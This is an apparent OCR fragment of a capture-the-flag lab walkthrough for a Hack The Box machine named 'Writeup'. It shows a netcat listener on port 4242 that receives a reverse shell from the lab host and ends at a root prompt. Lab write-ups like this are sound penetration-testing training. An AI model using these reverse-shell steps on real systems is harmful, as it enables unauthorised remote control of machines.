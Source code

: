 ![](Maszyny/Linux/Writeup/Pasted%20image%2020210905232800.png)

-(kali kali)-[-/htb/writeup/ww]
Ls
rlwrap nc -lvnp 4242
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on ::: 4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.10.138.
Ncat: Connection from 10.10.10.138:38224.
bash: cannot set terminal process group (31539): Inappropriate ioctl for device
bash: no job control in this shell
root@writeup:/#
